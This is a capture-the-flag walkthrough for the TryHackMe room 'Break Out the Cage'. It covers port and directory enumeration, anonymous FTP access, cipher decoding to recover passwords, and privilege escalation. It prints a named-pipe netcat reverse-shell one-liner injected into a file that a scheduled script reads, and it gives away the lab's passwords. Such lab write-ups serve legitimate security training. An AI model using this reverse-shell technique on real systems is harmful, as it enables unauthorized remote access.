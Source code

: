 # TryHackMe: Break Out the Cage
•	Begin by running a nmap scan on the target machine (a simple ‘nmap <ip address>’ will do here). The results show that there is a http page on port 80. We can go to this page in firefox by entering ‘<ip address>:80’ in a browser.

•	We can run gobuster on this website to enumerate the directory and hopefully find something useful (https://noobsixt9.medium.com/web-enumeration-using-gobuster-8437e7f4618d):
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/ -t 16

•	The enumerated directory shows /images, /html, /contracts, /auditions, and /server-status. If we go to the auditions page (http://<IP>:80/audtions) we can find a must_practice_corrupt_file.mp3.

  - I used ‘wget http://<IP:80/auditions/must_practice_corrupt_file.mp3’ to download the mp3 file.

•	You can use Sonic Visualizer to open up the mp3 file. You can add a spectrogram by selecting Layer > Add Pectrogram > <file>. You can adjust the color on the side to make the spectrogram easier to see. If you scroll through the sound file spectrogram, there should be a block that says “namelesstwo”.

•	Let’s revisit the nmap scan. We can add some switches to give us some more information. Enter ‘nmap -A -T5 -oN nmap.txt <IP>’ and wait for it to finish.

 - This will give us some more detailed information and output it to nmap.txt. If we read nmpa.txt, se we can see that the ftp server allows anonymous logins.

![image](https://github.com/user-attachments/assets/26b28c60-5130-4a5a-8f66-ce19826165f3)
 
•	We can do an anonymous login using the command ‘ftp <IP>’ and then using anonymous:anonymous for the username and password.

•	Using ‘ls’, we can see that there is a file called dad_tasks. Enter ‘get dad_tasks’ to download the file.

•	If we read the dad_tasks file we get a jumbled mess of letters, showing that the message has obviously been encoded. I ran the encrypted message identifier (https://www.dcode.fr/cipher-identifier), which showed that it is likely base64 encoded.

•	After decoding the base64, the message is a little more recognizable but is still encoded. This time it looks like it might be a Caesar or Vigenere cipher. The Cryptanalysis tool indicates that it is likely a Vigenere cipher. The automatic decrytper is unable to turn anything up, however if we use the word that we found in the sonic visualizer (namelesstwo) as the key we get the following plaintext message:

Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes

•	This last string is Weston’s password. We can ssh into his account (‘ssh weston@<IP>’) using the password.

•	We can see that someone named ‘cage’ keeps outputting quotes. We can try to track down where the quotes are coming from using ‘find / -group cage 2>dev/null’. It looks like it is probably coming from /opt/.dads_scripts/spread_the_quotes.py.

 - Note that many of these files are hidden using a ‘.’, you can use ‘ls -a’ to view all hidden files. Modify the .quotes file under /opt/.dads_scripts/.files/.quotes using the following command (make sure you change the ip to your machine and set up a listener using ‘nc -lvn 9001’, also note that there is another .quotes file in the home directory, this is not the one we want to modify):
  - echo "lol;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.196.78 9001 >/tmp/f" > .quotes

•	After waiting a few minutes, the reverse shell we inserted into .quotes should execute, allowing us to login as cage himself!

•	The user flag can be found in the Super_Duper_Checklist file.

•	Looking through Cage’s email backups, it is clear that he has an impeccable taste in Star Wars movies.

 - Why did I not get a role in the new fan made Star Wars films?! There was 3 of them! 3 Sean! I mean yes they were terrible films. I could of made them great... great Sean.... I think you're missing my true potential.

 - We can also tell from this email that Sean (Cage’s agent) is the root user.
•	On a side note, in email_3 we are able to find a message that was apparently left by Cage’s agent reading “haiinspsyanileph”.

 - This string is actually a Vigenere cipher, which we can decrypt with the key “face” that shows up multiple times in email_3 to get “cageisnotalegend”.

•	If we go back to the page where we logged in as Weston we can switch to the root account using this password with ‘su root’.

•	Logging in as root we can view email_2 in the email_backup folder to find the root flag and break out of the Cage!!!

![image](https://github.com/user-attachments/assets/d55db5d9-8d69-49bf-be7a-f515d6e3b53d)

 
